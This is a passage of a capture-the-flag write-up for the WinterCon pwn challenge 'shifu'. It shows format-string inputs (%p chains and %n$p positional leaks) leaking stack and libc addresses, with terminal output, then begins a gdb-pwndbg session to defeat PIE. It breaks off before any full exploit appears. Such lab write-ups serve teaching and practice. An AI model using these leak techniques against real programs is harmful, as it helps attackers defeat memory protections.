 We can also specifier the offset address we want to leak by using `%n$p where n=integer value (where we want to leak)`

Lets try it out

```
└─$ ./shifu 
What is Your BICCodeName?
Agent: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Welcome: 0x55cc7413007a.0x1.0x7f742cba2190.(nil).0x7f742ccaa6a0.Here is a gift for you: 0x7f742cafc450
Enter your agent!Syncing identify with secret > p.%p.%p.%p.%p.%p.%p.%p.%p.%p. 
Oops Imposter!!!
                                                                                                                                                                                                                   
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu
What is Your BICCodeName?
Agent: %1$p
Welcome: 0x55add749607a
Here is a gift for you: 0x7f79894bd450
Enter your agent!
Syncing identify with secret >  
Oops Imposter!!!
                                                                                                                                                                                                                   
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu
What is Your BICCodeName?
Agent: %10$p
Welcome: (nil)
Here is a gift for you: 0x7f0b369bb450
Enter your agent!
Syncing identify with secret >  
Oops Imposter!!!
```

We see that the first offset `%1$p` corresponds with what we leaked initially which is `0x55cc7413007a` and the tenth offset doesn't have any adderss thats why it shows `(nil)`

From this we can do this manually but its not going to be efficient cause its time wasting so instead i'll use a script

But before i do that here's another thing that will cause issue for us

The binary has PIE enabled which basically will randomize address making it not possible to call an address 

But with this format string vulnerability we can leak an address and calculate its offset to the main address

I'll use gdb-pwngdb for it 

Lets load up the binary 

```
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ gdb-pwndbg shifu 
Reading symbols from shifu...
(No debugging symbols found in shifu)
pwndbg: loaded 138 pwndbg commands and 43 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
Use the errno (or errno <number>) command to see the name of the last or provided (libc) error
pwndbg> break main
Breakpoint 1 at 0x1280
pwndbg> r
Starting program: /home/mark/Desktop/CTF/WinterCon/pwn/shifu 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
```